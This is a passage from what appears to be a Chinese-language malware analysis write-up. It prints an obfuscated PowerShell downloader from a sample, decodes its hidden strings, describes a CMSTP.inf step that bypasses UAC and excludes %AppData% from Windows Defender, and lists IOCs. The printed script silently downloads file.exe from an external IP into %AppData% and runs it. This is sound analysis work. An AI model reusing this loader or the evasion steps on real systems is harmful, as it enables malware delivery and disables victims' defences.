[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($uSLofA));Powershell -WindowStyle hidden -ExecutionPolicy UnRestricted -Encoded $LLTjIa;Start-Sleep 2;}ZpfWEYj ;function ovt($vKy, $kPH){[IO.File]::WriteAllBytes($vKy, $kPH)};$ghyth = 0;function wdR ($vKBorWL){ ;Start $vKBorWL ;}function QNG($dHY){$UST = New-Object (NUL @(5102,5125,5140,5070,5111,5125,5122,5091,5132,5129,5125,5134,5140));[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::TLS12;$kPH = $UST.DownloadData($dHY);return $kPH};function NUL($tdk){$uVX=5024;$LdL=$Null;foreach($GAA in $tdk){$LdL+=[char]($GAA-$uVX)};return $LdL};function Qko(){$Kdw = $env:AppData + '\';;;$qlplHGTNQh = $Kdw + 'file.exe'; if (Test-Path -Path $qlplHGTNQh){wdR $qlplHGTNQh;}Else{ $eYZpmJseoUR = QNG (NUL @(5128,5140,5140,5136,5082,5071,5071,5074,5076,5070,5073,5076,5076,5070,5079,5072,5070,5081,5077,5071,5126,5129,5132,5125,5070,5125,5144,5125));ovt $qlplHGTNQh $eYZpmJseoUR;wdR $qlplHGTNQh;};;;}Qko;
```

​

对解码后的代码进行分析，代码首先使用Add-Type定义一个类WPIA. ConsoleUtils 方法：user32的PostMessage函数和一个变量WM\_CHAR。



定义函数Set-INFFile，Set-INFFile函数包含两个参数，如下图



函数会创建%temp%\CMSTP.inf文件，并将以下内容写入文件。



CMSTP.inf的作用包括关闭UAC认证，修改Windows Defender排除%AppData%路径。

执行上述操作后，代码会创建%AppData%下的file.exe，下载访问解码的URL并写入file.exe，随后启动。其中NUL是一个解码函数，通过该函数对代码中的两个数组进行解码，结果分别是Net.WebClient和http://24.144.70.95/file.exe。因上述url已失效，无法进一步获取file.exe的内容进行分析。

### ioc

f0d9ef8b557debe5d94338cc84c89bdc54dda938d1b24b8c01cca42f468b1387

<http://24.144.70.95/file.exe>

### 参考链接

[Windows Defender防御削弱](https://www.freebuf.com/articles/network/306834.html)

[powershell funciton](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/09-functions?view=powershell-7.5)
